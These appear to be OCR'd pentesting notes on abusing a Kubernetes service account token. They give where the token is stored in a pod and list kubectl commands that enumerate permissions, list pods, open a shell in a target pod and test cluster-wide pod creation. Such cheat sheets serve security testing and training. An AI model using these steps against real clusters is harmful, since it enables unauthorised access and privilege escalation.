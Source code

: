 ### Kubernetes stores the token of the service account running a pod in /var/run/secrets/kubernetes.io/serviceaccount/token. 

## Token type: JWT signed by the cluster

## TIP: If an account can do * verb on *.* resource, it means it is a cluster-admin, which also means we are able to run any kubectl command we eant.

#### 1) kubectl auth can-i --list --token=${TOKEN} --certificate-authority=ca.crt

#### 2) kubectl get pods --token={TOKEN}

#### 3) kubectl exec -it POD --token={TOKEN} -- /bin/bash (This gives us a shell on the target pod)

#### 4) kubectl --token=TOKEN --certificate-authority=ca.crt --server=https://IP_ADDRESS:8443 auth can-i create pods --all-namespaces

### Interesting results from --list output: Create, get list
